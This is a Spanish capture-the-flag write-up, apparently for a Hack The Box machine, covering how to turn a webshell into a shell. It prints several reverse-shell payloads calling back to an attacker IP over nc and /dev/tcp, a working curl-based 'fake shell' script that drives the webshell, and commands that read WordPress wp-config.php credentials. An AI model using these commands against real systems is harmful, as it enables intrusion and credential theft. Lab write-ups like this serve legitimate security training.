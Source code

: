### Crear una reverse shell desde la webshell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En la web

    ```bash
    http://sec03.rentahacker.htb/shell.php?hidden=nc -e /bin/bash 10.10.14.20 443
    http://sec03.rentahacker.htb/shell.php?hidden=bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'
    http://sec03.rentahacker.htb/shell.php?hidden=whoami | nc 10.10.14.20 443
    ```

Como aqui vemos que nada functionna, pensamos que hay reglas que son definidas en el *iptables*

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero `fakeShell.sh` que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
declare -r main_url="http://sec03.rentahacker.htb/shell.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -X GET -G $main_url --data-urlencode "hidden=$command"; echo
done
```

Ya lo podemos lanzar con el comando `rlwrap ./fakeShell.sh`

> [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 1:15:38

Tambien se podria utilizar la herramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Enumeramos el equipo {-}

```bash
ls -l /home
whoami
ls -l /home/ib01c03
ls wp-config.php
find \-name wp-config.php
find / \-name wp-config.php
cat /home/ib01c03/www/wp-config.php
```

